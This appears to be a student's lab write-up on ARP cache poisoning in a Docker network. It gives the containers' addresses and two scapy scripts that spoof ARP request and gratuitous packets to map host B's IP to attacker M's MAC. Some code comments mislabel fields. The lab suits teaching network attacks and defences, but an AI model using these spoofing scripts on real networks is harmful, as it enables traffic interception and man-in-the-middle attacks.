

# Layer 2 - ARP Attacks


## Setup:

No acces to GUI -> Send file from local machine to VM

docker-compose build
docker-compose up
docker ps


Logging into all three containers

finding out Mac-Adress via: ipconfig
Mac Address and IPs

IP Addresses:
```
A: 10.9.0.5
B: 10.9.0.6
M: 10.9.0.105
``` 

MAC Addresses:
```
A: 02:42:0a:09:00:05
B: 02:42:0a:09:00:06
M: 02:42:0a:09:00:69
```

### Task 1.A (using ARP request)
On host M, construct an ARP request packet to map B’s IP address
to M’s MAC address. Send the packet to A and check whether the attack is successful or not.

``` python 
#!/usr/bin/env python3
from scapy.all import *
 
E = Ether()
 
E.dst = "02:42:0a:09:00:05" #A MAC address
E.src = "02:42:0a:09:00:69" #M MAC address
 
A = ARP()
A.op    = 1                     # 1 for ARP request; 2 for ARP reply
A.hwsrc = "02:42:0a:09:00:69"   #M MAC address
A.psrc  = "10.9.0.6"            #B IP address
 
A.hwdst = "02:42:0a:09:00:05"   #A MAC address
A.pdst  = "10.9.0.5"            #A IP address
 
pkt = E/A
sendp(pkt)
```


### Task 1.B (using ARP reply) 
On host M, construct an ARP reply packet to map B’s IP address to
M’s MAC address. Send the packet to A and check whether the attack is successful or not.


### Task 1.C (using ARP gratuitous message)
On host M, construct an ARP gratuitous packet, and use
it to map B’s IP address to M’s MAC address. Please launch the attack under the same two scenarios
as those described in Task 1.B.
ARP gratuitous packet is a special ARP request packet. It is used when a host machine needs to
update outdated information on all the other machine’s ARP cache. The gratuitous ARP packet has
the following characteristics:
– The source and destination IP addresses are the same, and they are the IP address of the host
issuing the gratuitous ARP.
– The destination MAC addresses in both ARP header and Ethernet header are the broadcast MAC
address (ff:ff:ff:ff:ff:ff).
– No reply is expected.

``` python
#!/usr/bin/env python3
from scapy.all import *
 
E = Ether()
 
E.dst = "ff:ff:ff:ff:ff:ff" #A MAC address
E.src = "02:42:0a:09:00:69" #M MAC address
 
A = ARP()
A.op    = 1                     # 1 for ARP request; 2 for ARP reply
A.hwsrc = "02:42:0a:09:00:69"   #M MAC address
A.psrc  = "10.9.0.6"            #B IP address
 
A.hwdst = "ff:ff:ff:ff:ff:ff"   #A MAC address
A.pdst  = "10.9.0.6"            #A IP address
 
pkt = E/A
sendp(pkt)
```
